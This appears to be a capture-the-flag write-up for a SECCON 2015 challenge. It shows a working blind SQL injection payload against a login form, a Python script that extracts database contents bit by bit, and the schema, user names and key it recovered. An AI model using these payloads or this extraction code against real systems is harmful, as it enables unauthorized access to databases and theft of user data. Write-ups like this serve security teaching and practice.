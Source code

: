 Logging in with `rrr@rrr.com' and if(mid((select version()),1,1)<=4,1,0)#` responded with

```
{u'error_msg': u'Login credentials are wrong. Please try again!', u'error': True}
```

So we can extract database by blind SQL injection attack.

```py
def check_truth(expr):
    pay = "rrr@rrr.com' and if((%s),1,0)#" % expr
    result = login(pay, 'rrr')
    return not result['error']

def get_char(query, idx):
    char = "lpad(bin(ascii(mid((%s),%d,1))),8,0)" % (query, idx)
    s = ''
    for j in range(1,9):
        bit = "substr(%s,%d,1)=1" % (char, j)
        res = check_truth(bit)
        if res:
            s += '1'
            print '1',
        else:
            s += '0'
            print '0',
        print bit
    return chr(int(s,2))

def get_data(query):
    s = ""
    for i in range(100):
        c = get_char(query, i+1)
        s += c
        print s
        if c == '\x00': break
    return s
```

Below are some of the database contents.

```py
print get_data("select group_concat(schema_name) from information_schema.schemata")
# information_schema,seccon2015

print get_data("select group_concat(table_name) from information_schema.tables where table_schema='seccon2015'")
# users

print get_data("select group_concat(column_name) from information_schema.columns where table_name='users'")
# id,unique_id,name,email,encrypted_password,salt,created_at,updated_at

print get_data("select group_concat(name) from users order by created_at")
# h2spice,,,iamthekey,Name,hello,hello1,he ...

print get_data("select unique_id from users where name='iamthekey'")
# a159c1f7097ba80403d29e7
```
